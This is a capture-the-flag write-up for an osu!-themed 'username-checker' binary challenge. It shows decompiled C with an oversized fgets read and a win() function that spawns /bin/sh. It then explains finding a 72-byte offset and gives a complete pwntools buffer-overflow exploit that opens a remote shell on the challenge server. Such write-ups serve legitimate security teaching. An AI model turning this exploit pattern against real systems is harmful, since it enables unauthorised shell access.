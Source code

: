 # username checker

> Having trouble finding the perfect osu! username?
> Check whether your usernames are valid using username-checker!

## Files

```
❯ file *
checker:    ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fcf233c90bc0e306027cc14ca4f302293d2f4b5c, for GNU/Linux 3.2.0, not stripped
Dockerfile: ASCII text
flag.txt:   ASCII text, with no line terminators
nsjail.cfg: ASCII text
```

We have a 64 bit executable `checker` which we need to crack, opening it in ghidra we can get the source code

```c
void main(void)
{
    setvbuf(_stdin, 0, 2, 0);
    setvbuf(_stdout, 0, 2, 0);
    puts("~-~ username-checker ~-~");
    check_username();
    return;
}

// WARNING: Variable defined which should be unmapped: var_10h

undefined8 check_username(void)
{
    int32_t iVar1;
    int64_t iVar2;
    uint64_t uVar3;
    undefined8 uVar4;
    int64_t *piVar5;
    uint64_t uVar6;
    char *s1;
    int64_t var_1ch;
    int64_t var_10h;
    
    printf("please enter a username you want to check: ");
    fgets(&s1, 0x80, _stdin);
    iVar2 = strcspn(&s1, data.00402054);
    *(undefined *)((int64_t)&s1 + iVar2) = 0;
    uVar3 = strlen(&s1);
    if (uVar3 < 0x10) {
        for (var_1ch._0_4_ = 0; uVar6 = (uint64_t)(int32_t)var_1ch, uVar3 = strlen(&s1), uVar6 < uVar3;
            var_1ch._0_4_ = (int32_t)var_1ch + 1) {
            piVar5 = (int64_t *)__ctype_b_loc();
            if (((((*(uint16_t *)((int64_t)*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) * 2 + *piVar5) & 8) == 0)
                 && (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '_')) &&
                (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '[')) &&
               (((*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != ']' &&
                 (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != '-')) &&
                (*(char *)((int64_t)&s1 + (int64_t)(int32_t)var_1ch) != ' ')))) {
                puts("username contains invalid characters");
                return 1;
            }
        }
        iVar1 = strcmp(&s1, "super_secret_username");
        if (iVar1 == 0) {
            win();
            uVar4 = 0;
        } else {
            puts("username is valid!");
            uVar4 = 0;
        }
    } else {
        puts("username is too long");
        uVar4 = 1;
    }
    return uVar4;
}

void win(void)
{
    puts("how did you get here?");
    system("/bin/sh");
    return;
}
```

## Solving

Basically what this code does is takes in our input and checks it length and then against `super_secret_username`

But the key thing is that fgets takes in 0x80 bytes which is way too much so if we input too much we can get a segfault

This means we can overwrite the return address so we can jump to the function `win`

If we input `pwn cyclic` into our code and check in gdb where it jumped we can find that the offset is 72 bytes

Now we can write our pwntools exploit:

```python
from pwn import *
elf = ELF('./checker')
win = elf.symbols.get('win', 0)
ret = next(elf.search(asm('ret')))

payload = b'A'*72
payload += p64(ret)
payload += p64(win)
#p = process("./checker")
p = remote('username-checker.challs.sekai.team', 1337)
#p = gdb.debug("./checker", gdbscript="b win")
p.sendline(payload)
p.interactive()
```

Running this gives us a shell and now we can `cat flag.txt` giving us the flag: `osu{thats_not_a_val1d_username_:(}`
